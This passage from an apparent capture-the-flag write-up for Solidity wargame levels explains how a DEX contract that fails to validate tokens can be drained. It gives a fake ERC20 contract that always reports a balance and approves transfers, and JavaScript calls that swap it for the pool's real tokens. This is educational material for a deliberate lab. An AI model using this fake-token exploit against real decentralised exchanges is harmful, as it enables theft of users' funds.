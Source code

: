 ```sol
  }
}

contract SwappableTokenTwo is ERC20 {
  address private _dex;
  constructor(address dexInstance, string memory name, string memory symbol, uint initialSupply) public ERC20(name, symbol) {
        _mint(msg.sender, initialSupply);
        _dex = dexInstance;
  }

  function approve(address owner, address spender, uint256 amount) public returns(bool){
    require(owner != _dex, "InvalidApprover");
    super._approve(owner, spender, amount);
  }
}
```

Here the swap tokens are not validated properly, we could set up a dummy token and make the contract believe that we hold tokens on the contract. 

> #### Solution:
> - We could swap tokens using our dummy token contract.
> ```sol
> // SPDX-License-Identifier: UNLICENSED
> pragma solidity ^0.8.0;
> contract dexExp {
> 
>     function balanceOf(address account) external view returns (uint256){
>         return 100;
>     }
> 
>     function transferFrom(address from, address to, uint256 amount) external returns (bool) {
>         return true;
>     }
> }
> ```
> - We could do swaps with this token address.
> ```js
> exp = "0xe30bb4f557e4aa4d669992727cb3293609a345b5"; // replace the address with your exploit contract address
> token1 = await contract.token1();
> token2 = await contract.token2();
> await contract.swap(exp, token1, 100);
> await contract.swap(exp, token2, 100);
> ```

<hr>

## 24 Puzzle Wallet
We need to become admin of the contract.
